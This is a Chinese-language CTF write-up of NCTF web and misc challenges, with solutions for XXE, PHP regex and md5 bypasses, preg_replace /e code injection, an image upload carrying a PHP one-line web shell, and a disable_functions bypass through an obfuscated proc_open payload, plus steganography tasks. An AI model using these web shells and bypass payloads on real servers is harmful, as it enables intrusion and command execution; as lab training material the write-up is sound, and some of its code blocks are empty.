



WEB
Fake XML cookbook
题目已经说了flag在根目录,所以只要用XXE访问到根目录就可以了
easyphp
简单的代码看了一下他一共有3个关卡,
1.传入的num的值不可以等于23333,并且这个值要被正则表达式/^23333$/匹配到
2.传入str1和str2的md5值不可以一样,但是经过strtr函数替换后的md5值要一样
3.传入的参数不可以大于8个字符,参数中不可以包含_字符,然后对$cmd用空额进行分割里面的参数不可以出现cat命令
解题思路:
1.在传入换行符的时候,可以让/^$/匹配到(fuzz发现的),所以我们主要传入23333%0a就可以绕过第一关
2.如果一个md5是0e开头且后面都是数字的2个md5进行弱类型比较的时候,会一样,因为strtr函数里面他回把c替换为0,所以我们只要找到ce开头的且后面都是数字的md5值就可以绕过
3.在传入get参数时,如果参数包括.就会自动替换为_,因为我们传入的字符不可以大于8并且不可以用cat命令,那么我们可以用tac(查看内容并且进行反转)代替cat,然后我们可以用通配符*来减短长度
绕过第一关
传入参数num=23333%0a
绕过第二关
我们可以用脚本进行爆破md5值
脚本
1 |
|
传入参数str1=586180707&str2=1000766792
绕过第三
我们要先查看flag文件在哪里,传入参数q.w.q=ls
因为当前只有一个f开头的文件,所以我们可以用通配符*来绕过长度限制,传入参数q.w.q=tac f*
然后在用linux把内容反过来,就可以拿到flag
replace
打开页面发现就是一个替换字符串的,然后在随便乱点是时候看到了一个hint.php
刚开始看到还有点懵,然后在无意间在替换的时候,发现他报错了

然后看到报错信息,有个preg_replace正则替换函数,然后上面php5.6就想到了,他应该是有用/e去匹配,然后有对替换的内容进行eval处理,导致命令执行
先执行一个phpinfo()
然后执行命令的时候发现被拦截了

然后通过fuzz发现,会过滤’号
然后可以用eval($_GET[0]),这样来执行命令就不会出现单引号
然后在根目录发现flag,然后查看即可
Upload your Shell
题目说要找到上传点,然后在进行骚操作。
点击头像发现,有image的字样。
然后点进去发现上传点
观察url发现,他有可能存在文件包含,然后试着去包含/etc/passwd能不能返回内容
思路就是:上传个图片里面藏有一句话木马,然后利用文件包含去包含就可以了。
在正常上传图片的时候,发现竟然被拦截了
通过他拦截信息可以知道,内容不可以用<?的字符,有可能是图片中包含了这些字符所以被拦截了。我们可以只取图片的头部分然后在上传(只要把中间的大部分内容给删掉就可以了,如果还提示<?拦截的消息就继续删),然后再次上传。
发现他说,图片上传成功但是不可以获取到flag值,那我们在里面传入一句话木马就可以了,因为他过滤了<?所以我们要用其他标签代替<script language="php"></script>代替。最终payload
1 | <script language="php">eval($_REQUEST[0])</script> |
提示上传成功
然后用文件包含去包含就可以拿到flag了
hacker_backdoor
题目说:黑客写的一句话木马,然后我们要利用一句话木马去执行命令
然后通过简单的审计,有2个条件
1.要指定一个存在的目录
2.不可以出现函数的字符串
其实绕过也很简单
- ./目录这个代表当前文件,所以肯定是存在的
- 既然我们不可以传入函数字符串,那么我们可以对函数的字符串进行拆分,然后在执行(php有变量函数这种语法)
首页执行一个phpinfo命令,传入如下payload$a='php';$a.='info';$a();
命令执行成功,但是通过disable_functions发现禁用了大部分命令执行函数,和其他文件操作的函数,但是经过黑名单对比,发现了漏了一个命令执行函数proc_open(),然后查看别人使用方法
1 |
|
然后因为一些限制,例如array他不是一个函数所以就不可以用变量函数来代替,然后就替换为了[]来代替数组,还有echo也是一样,但是可以用print_r来代替。因为里面的一些变量和字符串也存在函数名,所以也要替换。最后修改后的payload
1 | <?php |
然后去掉换行符并且进行进行url编码最后变成
1 | $test%20=%20%22whoami%22;$p%20=%20%22pr%22;$p.=%27oc_%27;$p.=%27open%27;$ec=%22prin%22;$ec.=%22t_r%22;$s=%27st%27;$s.=%27r%27;$s.=%27eam%27;$s.=%27_ge%27;$s.=%27t_co%27;$s.=%27nten%27;$s.=%27ts%27;$array%20=%20[[%22p%22.%22i%22.%22pe%22,%22r%22],[%22p%22.%22i%22.%22pe%22,%22w%22],[%22p%22.%22i%22.%22pe%22,%22w%22]];$fp%20=%20$p($test,$array,$pes);$ec($s($pes[1])); |
命令执行成功,然后在根目录发现flag,但是有个问题出现了,他的flag不可读
但是还发现里面有个readflag,然后试着打开看看里面的内容
他是一个elf可执行文件,然后在里面还有/bin/cat flag的字样,猜测他就是用来查看flag的,然后运行这个elf文件

MISC
a_good_idea
打开就是一张图片
然后用binwalk进行分析发现了他内藏其他的图片,然后进行分离(加个-e)参数
发现有个hint.txt查看后经过翻译后的内容是:试着找出像素的秘密
然后用Stegsolve.jar进行分析,先打个第二个图片,用里面图片组合器,选择第一张图片进行处理
然后点了几下按钮,发现了二维码,扫码拿flag
What’s this
里面是数据包,数据非常小,就是有个传了个压缩文件
打开发现是密码,然后发现是伪加密,修改16进制位,把09标志位变成00(如果有些压缩软件说这不是一个有效的压缩包,就要把http头部内容删掉)
然后查看里面的文件发现了一堆base64
怀疑是base64隐写,利用别人的脚本进行解密,这里打开的是1.txt记得对文件重命名
1 | def get_base64_diff_value(s1, s2): |

结束感言
nctf给我的感觉还是不错的,虽然总排名在69,但是比以前有点进步。至少不在是签到提选手了。没有白费这1个月天天刷ctf的时间。加油!加油!!!